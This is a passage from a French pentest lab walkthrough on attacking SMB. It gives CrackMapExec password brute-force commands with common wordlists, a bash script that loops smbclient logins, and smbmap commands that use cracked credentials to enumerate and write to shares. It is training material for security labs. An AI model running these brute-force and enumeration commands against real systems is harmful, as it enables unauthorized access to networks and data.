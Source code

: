 ### Avec CrackMapExec
```bash
# Installation si nécessaire
apt-get install crackmapexec

# Utilisateur unique
crackmapexec smb <target> -u admin -p /usr/share/wordlists/rockyou.txt

# Wordlists multiples
crackmapexec smb <target> -u /usr/share/wordlists/metasploit/common_users.txt -p /usr/share/wordlists/metasploit/unix_passwords.txt

# Avec options avancées
crackmapexec smb <target> -u admin -p passwords.txt --shares --continue-on-success
```

### Avec smbclient en script
```bash
#!/bin/bash
# smb_bruteforce.sh

TARGET=$1
USER=$2
PASSLIST=$3

while IFS= read -r password; do
    echo "Testing: $USER:$password"
    smbclient -L $TARGET -U "$USER%$password" -W WORKGROUP 2>/dev/null
    if [ $? -eq 0 ]; then
        echo "[SUCCESS] $USER:$password"
        break
    fi
done < "$PASSLIST"
```

---

## Phase 4: Analyse des partages et permissions

### Avec smbmap (Méthode du lab)

#### Analyse des permissions
```bash
# Avec credentials trouvés (comme dans le lab avec admin:password1)
smbmap -H <target> -u admin -p password1

# Analyse détaillée
smbmap -H <target> -u admin -p password1 -R

# Test d'écriture
smbmap -H <target> -u admin -p password1 --upload test.txt 'share_name/test.txt'

# Avec domaine
smbmap -H <target> -u admin -p password1 -d DOMAIN
```
